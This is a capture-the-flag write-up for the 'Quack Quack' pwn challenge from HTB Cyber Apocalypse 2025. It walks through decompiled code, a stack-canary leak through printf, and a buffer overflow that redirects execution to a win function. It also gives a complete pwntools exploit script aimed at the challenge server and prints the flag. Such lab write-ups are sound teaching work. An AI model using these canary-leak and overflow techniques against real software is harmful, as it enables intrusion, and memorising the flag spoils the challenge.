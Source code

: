 ```yaml
---
title: Quack Quack
date: 2025-03-29T18:19:13+02:00
description: Writeup for Quack Quack [HTB Cyber Apocalypse CTF 2025]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm. Quack Quack, it's time to face the Duck!

## Intuition

We can open the binary in Ghidra and see that the `main()` function calls an interesting `duckling()` function. Here is the latter's decompiled code, comments added by me:

```c
void duckling(void)
{
  long lVar1;
  char *pcVar2;
  long in_FS_OFFSET;
  char buf [102];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);

// [...]

  printf("Quack the Duck!\n\n> ");
  fflush(stdout);
  read(0,buf,0x66);
  pcVar2 = strstr(buf,"Quack Quack "); // <--- find "Quack Quack " in user input
  if (pcVar2 == (char *)0x0) {
    error("Where are your Quack Manners?!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ",pcVar2 + 0x20); // <--- print content after "Quack Quack ". Which can be used to leak
  read(0,buf + 0x20,0x6a);  // <--- start reading user input to buf+0x20 (overflow)
  puts("Did you really expect to win a fight against a Duck?!\n");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

The program does the following:

1. Reads 0x66 bytes from the user.
2. Copies it to `buf`.
3. Searches for `Quack Quack ` in it and returns in it `pcVar2`.
4. Prints content from `pcVar2+0x20`.
5. Reads 0x6a bytes into `buf+0x20`.

Because `Quack Quack ` can be found at the end of the buffer, the `printf()` call at step 4 can be used to leak the stack content, including the cookie.

Then we can use the overflow at step 5 to overwrite the return address and return to a *win* function that is provided in the binary:

```c
void duck_attack(void)
{
  ssize_t sVar1;
  long in_FS_OFFSET;
  char local_15;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_14 = open("./flag.txt",0);
  if (local_14 < 0) {
    perror("\nError opening flag.txt, please contact an Administrator\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_14,&local_15,1);
    if (sVar1 < 1) break;
    fputc((int)local_15,stdout);
  }
  close(local_14);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

## Solution

Below is a Python script that leaks the canary and overflows the buffer to return to `duck_attack()`.

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./quack_quack")
target = remote("83.136.253.25", 52011)

win = 0x0040137f

msg = b"Quack Quack "
payload = b"a" * (101 - len(msg)) + msg # put "Quack Quack " at the end to leak stack contents
target.send(payload)
target.recvuntil(b"Quack Quack ")
target.recvlines(5)
line_leak = target.recvline()
print(line_leak)
leak = b"\x00" + line_leak.split()[3][:-1] # get cookie leak and rbp

print(leak, len(leak))

payload = b"a" * 88 + leak + p64(win)[:2] + p64(win)[:2] # this is super weird because my leak included the rbp, too lazy to change it
target.send(payload)

target.interactive()

```

### Flag

`HTB{~c4n4ry_g035_qu4ck_qu4ck~_SOME_UNIQUE_ID}`


